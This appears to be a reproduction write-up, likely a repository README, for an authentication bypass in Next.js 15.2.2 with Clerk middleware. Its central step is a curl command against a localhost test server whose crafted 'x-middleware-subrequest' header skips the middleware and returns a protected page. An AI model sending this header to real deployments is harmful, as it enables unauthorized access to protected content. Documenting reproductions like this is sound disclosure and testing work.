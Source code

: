# Steps to reproduce the auth bypass:

1. Mak sure to use a vulnerable version of next. In my case, it's 15.2.2
2. Install the Clerk SDK and set it up through an auth middleware
3. Stage the Payload using curl or an HTTP client
   ```bash
   curl -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware" http://localhost:3000/secret
   ```
5. Send the request to the server
6. The server will respond with the protected page without throwing an error

# Screen recoding
https://cln.sh/XPy3ZQHm

